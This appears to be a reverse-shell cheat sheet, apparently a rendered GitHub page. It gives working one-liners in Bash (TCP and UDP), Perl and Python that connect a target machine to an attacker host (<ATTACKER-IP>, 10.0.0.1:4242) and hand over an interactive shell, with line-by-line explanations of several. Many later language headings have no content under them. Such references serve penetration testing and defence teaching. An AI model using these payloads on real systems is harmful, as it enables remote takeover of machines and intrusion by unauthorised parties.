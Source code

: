 **Bash TCP**

**1.`bash -i >& /dev/tcp/<ATTACKER-IP>/<PORT> 0>&1`**

`bash -i` start an interactive bash shell

`>& /dev/tcp/<ATTACKER-IP>/<PORT>` redirect stdout and stderr to a TCP socket connection 

`0>&1` or `0<&1` connect file descriptor 1 (stdout TCP socket connection) to file 
descriptor 0 (stdin)

We connect an interactive bash shell to the attackers machine through a TCP socket and 
execute commands by redirecting stdout from the TCP connection to stdin on the target 
machine.

**2. `0<&196;exec 196<>/dev/tcp/<ATTACKER-IP>/<PORT>; sh <&196 >&196 2>&196`**

`0<&196;` duplicate input file descriptor 196 to 0 (stdin)

`exec 196<>/dev/tcp/<ATTACKER-IP>/<PORT>;` redirect stdin and stdout of the tcp socket 
connection to file descriptor 196

`sh <&196 >&196 2>&196` execute stdin from file descriptor 196 with sh, redirect stdout
from sh to file descriptor 196, redirect stderr to file descriptor 196

**3. `/bin/bash -l > /dev/tcp/<ATTACKER-IP>/<PORT> 0<&1 2>&1`**

`/bin/bash -l` start bash as if a login shell were invoked

`> /dev/tcp/<ATTACKER-IP>/<PORT> ` redirect stdout to a TCP socket connection

`0<&1 2>&1` moves file descriptor 1 (stdout TCP connection) to file descriptor 0 (stdin) 
and redirects file descriptor 2 (stderr) to file descriptor 1 (stdout TCP connection)

**Bash UDP**

**`sh -i >& /dev/udp/<ATTACKER-IP>/<PORT> 0>&1`**

Same as Bash TCP 1 but with UDP

**Perl**

**1. `perl -e 'use Socket;$i="10.0.0.1";$p=4242;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`**

`perl -e` execute the following perl command

`use Socket;` import Socket's functions

`$i=<ATTACKER-IP>;$p=<PORT>` define the variables i and p of our listening machine

`socket(S,PF_INET,SOCK_STREAM, getprotobyname("tcp");` call the socket function creating a 
TCP socket attaching it to filehandle S

```
if(connect(S,sockaddr_in($p,inet_aton($i)))){
    open(STDIN,">&S");
    open(STDOUT,">&S");
    open(STDERR,">&S");
    exec("/bin/sh -i");
}
```

connect socket S to a listening machine on $i:$p, and if successful, redirect stdin from 
the connected socket and redirect stdout and stderr to the connected socket and finally 
execute a sh shell in interactive mode

**2. `perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:4242");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'`**


**3. Windows only `perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:4242");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'`**

**Python**

**IPv4**

**1. `export RHOST="10.0.0.1";export RPORT=4242;python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'`**

**2. `python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'`**

**3. `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'`**

**IPv6**

**Windows only**

**PHP**

**Ruby**

**Golang**

**OpenSSL**

**Powershell**

**Awk**

**Java**

**Telnet**

**War**

**Lua**

**NodeJS**

**Groovy**

**C**

**Dart**